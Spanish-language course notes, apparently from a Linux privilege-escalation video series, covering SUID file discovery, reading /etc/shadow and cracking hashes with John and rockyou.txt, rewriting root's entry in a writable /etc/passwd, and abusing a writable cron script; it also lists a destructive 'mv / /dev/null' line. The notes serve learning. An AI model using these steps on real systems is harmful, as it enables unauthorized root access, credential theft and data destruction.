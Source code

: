 # video 8

//saber quien soy
whoami

//saber algo del sistema
uname -a
lsb_realease -a

//como root asignar el permiso suid a find
chmod 4755 /usr/bin/find

//cambiamos de usuario
su pepitoe
//buscamos ficheros con esos permisos
find / \-perm 4000 2>/dev/null

//cosas turbias 
mv / /dev/null

//buscar por fichero donde podamos escribir

find /etc/ \-writable 


## Algoritmos de encriptación
cat /etc/login.defs | grep "ENCRYPT_METHOD"

cat /etc/shadow | grep pepito



https://sniferl4bs.com/2020/02/adios-rockyou.txt-bienvenido-kaonashi.txt/

https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwjNt9jQ3-D7AhXmzIUKHXtGBwUQFnoECAoQAQ&url=https%3A%2F%2Fgithub.com%2Fbrannondorsey%2Fnaive-hashcat%2Freleases%2Fdownload%2Fdata%2Frockyou.txt&usg=AOvVaw3snAERl1mU6Ccr4WFEazBd



si podemos hacernos con un hash $6$ -> sha512

cat /etc/shadow | grep usuario -> hash

Con john:

john --wordlists=/usr/share/wordlists/rockyou.txt hash

Si concuerda el algoritmo de encriptacion que es compatibles con john, empezara a comparar el hash con los que va generar john mediante la lista de constraseñas usuales.


Otra cosas que debemos de tener muy encuenta son los permisos que debemos darle a nuestro ficheros

Una mala configuracion  nos la cuelan.

desde un usuario "pepito" , si tengo permisos de escritura en /etc/passwd

find /etc/ \-writable 2>/dev/null

-> /etc/passwd

openssl passwd -> crear contraseña

hash-identifier -> identificar tipo de cifrado
hashid -> 

con capacidad de escritura 

nano /etc/passwd

root:x:0:0:root:/root:/bin/bash
root:hash-generado-openssl:0:0:root:/root:/bin/bash

su root -> entramos con el usuario root y comprobará el hash
con el que hay en el fichero /etc/passwd no /etc/shadow



# video 9 Explotación de tareas cron
cd /etc/cron.d

service cron status

//antes de iniciarlo creamos una tareas cron

nano tarea

//cada minuto se esta ejecutando esta tarea
* * * * * root /home/s4vitar/Desktop/file.sh

cd /home/s4vitar/Desktop/file.sh

nano file.sh

sleep 10
#borra todo los ficheros temporales
rm -r /tmp/*


//ahora partiendo de una usuario no privilegios -> convertirnos en root


chmod o+w file.sh




# video 10 detección de tareas cron a traves de un script

comprobamos nuestros privilegios/permisos en linux

whoami
id
sudo su
uname -a
lsb_realease -a

//no iriamos a ficheros con suid, que tengan capacidad de escritura por parte de mi usuario

el objetivo es crear un programa en bash para ver las tareas que
se estan ejecutando en tiempo real

touch procmon.sh
chmod +x !$ -> permisos de ejecucion
nano !$

con la ayuda del comando ps -eo command

#!/bin/bash -> cabeceras

